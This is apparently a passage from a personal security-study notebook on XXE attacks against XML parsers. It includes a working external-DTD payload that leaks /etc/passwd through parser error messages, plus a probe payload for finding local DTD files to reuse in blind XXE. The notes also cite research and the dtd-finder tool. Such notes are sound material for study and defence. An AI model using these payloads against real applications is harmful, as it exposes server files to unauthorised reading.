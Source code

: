 ### XXE: retrieve data via error messages

**/external.dtd**:
```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```

![](../../zzz_res/attachments/XXE_error-based.png)

## Blind XXE by repurposing a local DTD

>[!abstract] Bibliography
>From the research [Exploiting XXE with local DTD files](https://portswigger.net/research/top-10-web-hacking-techniques-of-2018#7).
>Real-word example: [Sonny - XXE, You Can Depend on Me](../../Readwise/Articles/Sonny%20-%20XXE,%20You%20Can%20Depend%20on%20Me.md)

### Locating an existing DTD file to repurpose

Tools: [dtd-finder](https://github.com/GoSecure/dtd-finder)

Since this XXE attack involves repurposing an existing DTD on the server filesystem, a key requirement is to locate a suitable file. This is actually quite straightforward. Because the application returns any error messages thrown by the XML parser, you can easily enumerate local DTD files just by attempting to load them from within the internal DTD.

You can test whether this file is present by submitting the following XXE payload, which will cause an error if the file is missing:

```xml
<!DOCTYPE foo [ <!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd"> %local_dtd; ]>
```


[^param-ent]: https://www.w3.org/TR/xml/#wfc-PEinInternalSubset
[^1]: [File Inclusion (LFI & RFI)](File%20Inclusion%20(LFI%20&%20RFI).md)
[^2]: [Path Traversal](Path%20Traversal.md)
[^3]: [Server Side Request Forgery (SSRF)](Server%20Side%20Request%20Forgery%20(SSRF).md)
[^xxe2shell]: [ORACLE PEOPLESOFT REMOTE CODE EXECUTION: BLIND XXE TO SYSTEM SHELL](https://www.ambionics.io/blog/oracle-peoplesoft-xxe-to-rce), ambionics.io
[^dtd-finder]: [dtd-finder list](https://github.com/GoSecure/dtd-finder/tree/master/list?ref=labs.watchtowr.com), GitHub